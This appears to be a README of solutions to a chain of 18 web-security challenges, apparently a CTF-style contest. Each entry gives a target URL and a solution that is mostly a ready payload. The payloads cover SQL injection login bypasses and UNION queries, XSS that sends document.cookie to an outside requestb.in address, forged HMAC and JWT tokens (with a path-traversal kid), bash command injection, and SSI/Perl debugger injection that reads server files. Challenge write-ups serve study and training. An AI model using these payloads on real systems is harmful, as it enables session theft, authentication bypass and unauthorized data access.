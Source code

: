 # 1. sqli
http://188.166.248.215/

<details>
<summary>Solution</summary>
<code>0||1</code>
</details>

# 2. sqli
http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/

<details>
<summary>Solution</summary>
<code>'or'1</code>
</details>

# 3. sqli
http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/

<details>
<summary>Solution</summary>

<code>'||1-- </code>

</details>

# 4. sqli
http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/

<details>
<summary>Solution</summary>
<code>0-- '||1-- "||1-- </code>
</details>

# 5. xss
http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/

<details>
<summary>Solution</summary>

```
<img src=x onerror='src="http://requestb.in/1bikbhd1?x="+encodeURIComponent(document.cookie)'>
```

</details>



# 6. sqli
http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/

<details>
<summary>Solution</summary>

username: `\`  
password: `||1-- `

</details>


# 7. xss
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/

<details>
<summary>Solution</summary>
<p>

js:
`');}location='http://requestb.in/1bikbhd1?x='+encodeURIComponent(document.cookie);{{'*/'/*`

url:
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/?js=')%3B%7Dlocation%3D'http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fx%3D'%2BencodeURIComponent(document.cookie)%3B%7B%7B'*%2F'%2F*

</p>
</details>

# 8. xss
http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/

<details>
<summary>Hint</summary>
<p>

`?url` query parameter is vulnerable to xss. CSP rules are:  
`Content-Security-Policy:default-src 'none'; script-src 'nonce-disabled';`

</p>
</details>

<details>
<summary>Solution</summary>
<p>

url param:

```
pwn"><script nonce="disabled">location="http://requestb.in/1bikbhd1?y="+encodeURIComponent(document.cookie)</script><p x="
```

http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/?url=pwn%22%3E%3Cscript%20nonce%3D%22disabled%22%3Elocation%3D%22http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fy%3D%22%2BencodeURIComponent(document.cookie)%3C%2Fscript%3E%3Cp%20x%3D%22

</p>
</details>

# 9. sqli (triple short)
http://139.59.127.144/d25d0cb4-90c3-465d-8733-b50229371377/

<details>
<summary>Solution</summary>
<p>

```
"="'='
```

</p>
</details>


# 10. sqli (12 random short)
http://139.59.127.144/9fc91798-4c0f-4e23-ab10-32e03e77ac95/

<details>
<summary>Solution</summary>
<p>

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||6='||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||'||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`0='&&0 union select char(0x73756363,6648691)from dual where 1||'"&&0 union select char(0x73756363,6648691)from dual where 1||"&&0 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)from dual where!'"union select char(0x73756363,6648691)from dual where 1||"=3 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)-- '"union select char(0x73756363,6648691)-- "=3 union select char(0x73756363,6648691)-- `

`'union select char(0x73756363,6648691)-- '"union select'success'-- "=3 union select'success'-- `

`'union select char(0x73756363,6648691)#'"union select'success'#"=3 union select'success'#`

`5=6 union select char(0x73756363,6648691)-- '=7 union select'success'-- "=7 union select'success'-- `

`0=3 union select char(0x73756363,6648691)-- 'union select'success'-- "union select'success'-- `

`0=3 union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@ union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@/*'/*"/**/union select'success'#`

```
@#'#"
union select'success'#
```

</p>
</details>

# 11. ruby hmac token 1
http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/

<details>
<summary>Hint</summary>
<p>

There is source leak by forcing some ruby error, for example utf8 decoding error. We need to sign a malformed string, but that's not a problem.

http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/?data=aaaaaaaaa%FFb%20%20%20%20%20%20%20%20%20GUEST%20%20%20%20%20&hmac=ca9a9653f330c29dc8f797c08d6f23a16e17c2132e993b7981a1ad330723b655

```
  end

  generated_hmac = OpenSSL::HMAC.hexdigest(OpenSSL::Digest.new('sha256'), KEY, params["data"])
  unless params["hmac"] == generated_hmac
    return "go away hacker"
  end

  @first_name, @last_name, @role = params["data"].scan(/.{10}/).map(&:rstrip)

  if @role == "ADMIN"
    content_type :txt
    return File.read("#{__dir__}/../next_challenge_info.txt")
  else
    @title = "User Info"
    erb :index
```

</p>
</details>

<details>
<summary>Solution</summary>
<p>

Post data:  
```
first_name[]=1&first_name[]=2&first_name[]=3&first_name[]=444ADMIN++++++++++++++&first_name[]=5&first_name[]=6&first_name[]=7&first_name[]=8&first_name[]=9&first_name[]=0&last_name=ADMIN
```

</p>
</details>

# 12. ruby hmac token 2
http://139.59.127.146/ffd88992-6cc1-4733-bcb5-39dd5b1603a8/

<details>
<summary>Hint</summary>
<p>
This time there is no source, previous exploit doesn't work. This time they capitalized all the input.
</p>
</details>

<details>
<summary>Solution</summary>
<p>

Assume they cut the length before capitalizing and pad afterwards. Unicode anyone? There are codepoints that expand to
more codepoints when uppercased.

ftp://ftp.unicode.org/Public/UCD/latest/ucd/SpecialCasing.txt

```
first_name=aa%1F%B2%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7&last_name=admin+++++
```

</p>
</details>

# 13. jwt bypass
http://139.59.112.116/dddace4a-d619-4204-bb15-df6c0a24d6de/

<details>
<summary>Hint</summary>
<p>
They use this lib: https://github.com/jwt/ruby-jwt
</p>
</details>

<details>
<summary>Solution</summary>
<p>

kid was a local file

```
var kid = "../../../etc/magic";
var alg = "HS256";
var hdr = $@"{{""typ"":""JWT"",""alg"":""{alg}"",""kid"":""{kid}""}}";
var body = $@"{{""user"":""admin""}}";
```

```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii4uLy4uLy4uL2V0Yy9tYWdpYyJ9.eyJ1c2VyIjoiYWRtaW4ifQ.KHvUjYMwH49GkMBB1FyyHJjX8J1kt79VAYadOpLDlMM```

</p>
</details>

# 14. sqli and php password check
http://139.59.127.147/e08720e1-df29-46cb-b1c8-83a32e9083df/

<details>
<summary>Solution</summary>
<p>

```
sqli
database leak with usernames and password hashes
crackstation: ripemd160

sql = "' UNION SELECT * FROM (SELECT '{}') c LEFT JOIN (SELECT '{}') a ON 1 LEFT JOIN (SELECT 0) b on 1 #".format(username, ripemd160(password).hex())
print(make_query(sql, password))
```

</p>
</details>

# 15. bash injection
http://139.59.127.148/ed932765-1a3a-467a-be5b-e11dc1fc542d/

<details>
<summary>Solution</summary>
<p>

```$( pwd | cut -c -9 )$( ls -S -r .. )```

</p>
</details>

# 16. captcha madness with no repeating chars
http://188.166.183.58/96e5c0bd-7f33-4188-94f0-89b3094bd6af/

<details>
<summary>Authors solution</summary>
<p>
http://139.59.127.149/e3cb1461-411d-4281-9c62-80b3c5e83cc9/captcha.php?id=q%27+unioN%0AselEct%0BmId(@fLag%0CFrOM%0D5)%23
</p>
</details>


# 17. echo service 1
http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/

<details>
<summary>Hint</summary>
<p>
By sending an invalid requests it replies with an error page redirecting to `/index.shtml`. What is `shtml`?

With some investigation we found that the service is in Perl: `index.pl`.
Somehow we found out there is a `/next_challenge` file on the filesystem. Don't remember how.

</p>
</details>

<details>
<summary>Solution</summary>
<p>

```
<!--#set var="PERL5OPT" value="-d" --><!--#set var="PERL5DB" value="BEGIN { require 'perl5db.pl' } END { print `cat /ne*` }" --><!--#include virtual="index.pl" onerror="index.pl"-->
```

http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/?name=%3C!--%23set%20var=%22PERL5OPT%22%20value=%22-d%22%20--%3E%3C!--%23set%20var=%22PERL5DB%22%20value=%22BEGIN%20{%20require%20%27perl5db.pl%27%20}%20END%20{%20print%20`cat%20/ne*`%20}%22%20--%3E%3C!--%23include%20virtual=%22index.pl%22%20onerror=%22index.pl%22--%3E

</p>
</details>

# 18. echo service 2
http://139.59.127.62/295dddc1-013d-41a9-8ddd-b6326acb8dc1/

Somebody claimed the prize at this point, I did not continue.
